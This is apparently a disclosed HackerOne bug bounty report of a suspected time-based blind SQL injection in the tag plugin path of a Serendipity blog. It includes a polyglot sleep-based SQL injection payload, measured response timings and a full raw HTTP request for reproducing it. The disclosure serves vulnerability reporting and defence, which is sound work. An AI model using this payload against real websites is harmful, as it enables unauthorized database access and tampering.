 # blind sql injection

## Report Details
- **Report ID**: 374027
- **URL**: https://hackerone.com/reports/374027
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-06-29T20:39:25.675Z
- **Disclosed**: 2018-11-09T21:02:58.104Z

## Reporter
- **Username**: geeknik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: hannob

## Vulnerability Information
**Summary:** 
There exists a possibility that your Serendipity installation is vulnerable to a blind sql injection.

**Description:** 
By sending specially crafted SQL commands to `/plugin/tag/` and timing how long it takes for the server to respond, it is quite possible that the blog backend is interepreting this as actual SQL commands and not just user input.

For example, if we visit `https://betterscience.org/plugin/tag/peerj` we get all articles tagged with `peerj`. I ran the following timed tests replacing `peerj` with the sql commands below:

```
if(now()=sysdate(),sleep(3),0)/*'XOR(if(now()=sysdate(),sleep(3),0))OR'"XOR(if(now()=sysdate(),sleep(3),0))OR"*/ => 3.276 s
if(now()=sysdate(),sleep(0),0)/*'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"*/ => 0.28 s
if(now()=sysdate(),sleep(9),0)/*'XOR(if(now()=sysdate(),sleep(9),0))OR'"XOR(if(now()=sysdate(),sleep(9),0))OR"*/ => 9.298 s
if(now()=sysdate(),sleep(6),0)/*'XOR(if(now()=sysdate(),sleep(6),0))OR'"XOR(if(now()=sysdate(),sleep(6),0))OR"*/ => 6.272 s
if(now()=sysdate(),sleep(0),0)/*'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"*/ => 0.265 s
if(now()=sysdate(),sleep(0),0)/*'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"*/ => 0.25 s
if(now()=sysdate(),sleep(0),0)/*'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"*/ => 0.265 s
if(now()=sysdate(),sleep(6),0)/*'XOR(if(now()=sysdate(),sleep(6),0))OR'"XOR(if(now()=sysdate(),sleep(6),0))OR"*/ => 6.256 s
if(now()=sysdate(),sleep(0),0)/*'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"*/ => 0.437 s
```

## Steps To Reproduce:

Request:
```
GET /plugin/tag/if(now()%3dsysdate()%2csleep(0)%2c0)/*'XOR(if(now()%3dsysdate()%2csleep(0)%2c0))OR'%22XOR(if(now()%3dsysdate()%2csleep(0)%2c0))OR%22*/ HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: https://betterscience.org:443/
Cookie: s9y_556bfeaw76g87a7643w7826384391f0=34583y4kj5ger78af32jh54g24; serendipity[url]=1; serendipity[name]=dxctfnid; serendipity[email]=bugbountyspam%40protonmail.com; serendipity[remember]=checked%3D%22checked%22
Host: betterscience.org
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

```
## Supporting Material/References:

  * List any additional material (e.g. screenshots, logs, etc.)

## Impact

Without sufficient removal or quoting of SQL syntax in user-controllable inputs, the generated SQL query can cause those inputs to be interpreted as SQL instead of ordinary user data. This can be used to alter query logic to bypass security checks, or to insert additional statements that modify the back-end database, possibly including execution of system commands.

## Attachments
No attachments
